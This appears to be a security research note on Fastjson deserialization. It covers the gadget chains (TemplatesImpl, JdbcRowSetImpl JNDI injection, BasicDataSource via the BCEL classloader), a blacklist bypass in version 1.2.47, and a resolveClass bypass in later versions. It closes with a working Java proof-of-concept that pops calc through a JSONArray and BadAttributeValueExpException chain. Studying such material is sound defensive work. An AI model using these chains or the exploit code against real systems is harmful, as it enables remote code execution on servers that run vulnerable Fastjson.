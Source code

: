 # Fastjson deserialization

## Analysis

In `Fastjson`, when `AutoType` support is enabled, the `JSON.parse()` method deserializes the class specified by `@type` key to a json string, and the `JSON.parseObject()` method deserializes the json string to the class specified by the method parameter.

When creating a class instance, it will call the `setter` and `getter` methods that meet the conditions in the class through reflection. And it is just the source of the vulnerability.

## TemplatesImpl chain

The `getOutputProperties()` method of the `TemplatesImpl` class calls the `newTransformer()`, so it's obvious. However, we need to note that the `Fastjson` does not deserialize private properties by default. Therefore, it is necessary to enable `SupportNonPublicField` support in order to utilize this chain.

## JdbcRowSetImpl chain

The `setAutoCommit()` method of the `JdbcRowSetImpl` class calls the `connect()` method of the `Connection` class. In the `connect()` method, the `InitialContext.lookup()` method is called, which means the JNDI injection. And the `lookup()` method parameter is the `dataSource` field of the `JdbcRowSetImpl` class.

## BasicDataSource chain

The `getConnection()` method of the `BasicDataSource` class calls the `createDataSource()` method and then calls the `createConnectionFactory()` method. In the `createConnectionFactory()` method, `Class.forName(driverClassName, true, driverClassLoader)` method is called, so that the static code block in the class specified by `driverClassName` will be executed. Therefore, we can set the `driverClassLoader` to the BCEL Classloader and set the `driverClassName` to a string of malicious class bytecodes to load it through the BCEL Classloader.

### BCEL Classloader

The BCEL classloader can deserialize bytecodes into a class, which overrides the Java native `ClassLoader.loadClass()` method. In its `loadClass()` method, it first checks if this string of bytecodes starts with the `$$BCEL$$` string, and if so, subsequent bytecodes will be decoded.

## Fastjson-1.2.47

In the `fastjson-1.2.47`, it doesn't just set the whitelist and blacklist to filter the types of deserialized classes. And if the class is in the blacklist, it will lookup the corresponding class from `TypeUtils.mappings` and `deserializers`. However it can be exploited to bypass the whitelist and blacklist.

If the `@type` key is the `Class`, it will be handled through `MiscCodec.deserialze()` and the corresponding value will be the parameter of the `TypeUtils.loadClass()` to be called. In the `loadClass()` method, the value will be added into the `TypeUtils.mappings`.

Therefore, set the value to the evil class name, so that we can load the evil class to bypass the whitelist and blacklist.

## Native deserialization

Native deserialization refers to the use of Java native deserialization `ObjectOutputStream.writeObject()` as the source to trigger deserialization vulnerabilities.

In `Fastjson`, the `JSONArray` class inherits the Serializable interface, and has a `toString()` method. In that method, the `toJSONString()` method will be called, which in turn triggers the `getter` method of the specified class. Therefore, we can trigger a deserialization vulnerability by calling the `toString()` method of the `JSONArray` class from the `readObject()` method of the `BadAttributeValueExpException` class.

However, starting from `Fastjson-1.2.49`, the `JSONArray` class has implemented the `readObject()` method, which checks the type of the class to be deserialized by calling the `SecureObjectInputStream.resolveClass()` method. Fortunately, due to incorrect coding, deserializing the `Reference` class can bypass the call to the `resolveClass()` method.  At the same time, when adding the same object to the `List`, `Set`, and `Map` classes, the duplicated object will be written as the `Reference` class.

### Code

```java
import com.alibaba.fastjson.JSONArray;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Exp {
    public static void main(String[] args) throws Exception {
        Object template = Gadgets.createTemplatesImpl("calc");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field declaredField = badAttributeValueExpException.getClass().getDeclaredField("val");
        Reflections.setAccessible(declaredField);
        declaredField.set(badAttributeValueExpException, jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(template, badAttributeValueExpException);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```